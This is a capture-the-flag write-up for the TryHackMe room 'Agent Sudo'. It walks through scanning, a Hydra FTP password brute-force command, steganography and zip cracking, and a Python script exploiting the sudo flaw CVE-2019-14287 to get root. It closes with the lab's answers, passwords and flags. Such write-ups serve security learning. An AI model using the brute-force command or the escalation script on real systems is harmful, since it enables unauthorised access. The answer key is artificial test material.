 ```yaml
---
title: Agent Sudo
date: 2022-09-10 09:45:47 +07:00
modified: 2022-09-10 09:45:47 +07:00
tags: [CVE, Agent Sudo, TryHackMe, Writeup, CTF]
description: Write Up for TryHackMe room Agent Sudo
---
```


# Agent Sudo

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png)

Room Name → **Agent Sudo**

Room Link → [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

Author → [DesKel](https://tryhackme.com/p/DesKel)

Description → You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Recon


I start port scanning with [Nmap]() to find existing ports and services.
`sudo nmap -sC -sV -oA nmap/agentsudo 10.10.133.149`
|Ports|Service|
|21|FTP (vsftpd 3.0.3)|
|22|SSH (OpenSSH 7.6p1|
|80|HTTP (Apache httpd 2.4.29|

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/1.png)

I checked website and wants me to change my user-agent

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/02.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2.png)

## Brute-Force

“25 employees” suggesting letters in the alphabet. So I have decided to brute force using all the letters.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_1.png)
![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_2.png)

After changing my user name to “C” I got the following message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_3.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/3.png)

Next, I decided to check out the FTP server. As I don’t have a password, I tried to brute-force using [Hydra]() and with [rockyou.txt]()

`hydra -t 3 -l chris -P /home/sz/Documents/rockyou.txt 10.10.133.149 ftp`

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/4.png)

I got the password to log in FTP.

After logging in I found two .png and one .txt file. After downloading them I checked out the message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5_1.png)

“stored in the fake picture” suggesting pictures are [Steganography]().

I brute-forced with [Stegcracker]() and found the following text

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/6.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/7.png)

Not very useful. For the other picture, I used [binwalk]() to extract the files inside one of the images.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/8.png)

I found a zip file and brute-force that with [John]()

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/9.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/10.png)

Now I have the user and password to ssh.

After logging in ssh I found the user flag

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/11.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/12.png)

## OSINT

Inside I found an image 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13_1.png)

After a simple google reverse image search, I found this article.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13.png)

## Privilege Escalation

After doing some basic enumeration I found a possible shell escaping way. 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/14.png)

After doing some research I have found the following CVE.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/15.png)

I made a python file with the following code. 

```python
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
```

After executing the file I got root!

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/16.png)


 <a href='https://ko-fi.com/N4N64TH56' target='_blank'><img height='36' style='border:0px;height:36px;' src='https://cdn.ko-fi.com/cdn/kofi3.png?v=3' border='0' alt='Buy Me a Coffee at ko-fi.com' /></a>

***Q1. How many open ports?***

***A. 3***

***Q2. How you redirect yourself to a secret page?***

***A. user-agent***

***Q3. What is the agent name?***

***A. chris***

***Q4. FTP password***

***A. crystal***

***Q5. Zip file password***

***A. alien***

***Q6. steg password***

***A. Area51***

***Q7. Who is the other agent (in full name)?***

***A. james***

***Q8. SSH password***

***A. hackerrules!***

***Q9. What is the user flag?***

***A. b03d975e8c92a7c04146cfa7a5a313c7***

***Q10. What is the incident of the photo called?***

***A. Roswell alien autopsy***

***Q11. CVE number for the escalation***

***A. CVE-2019-14287***

***Q12. What is the root flag?***

***A. b53a02f55b57d4439e3341834d70c062***

***Q13. (Bonus) Who is Agent R?***

***A. DesKel***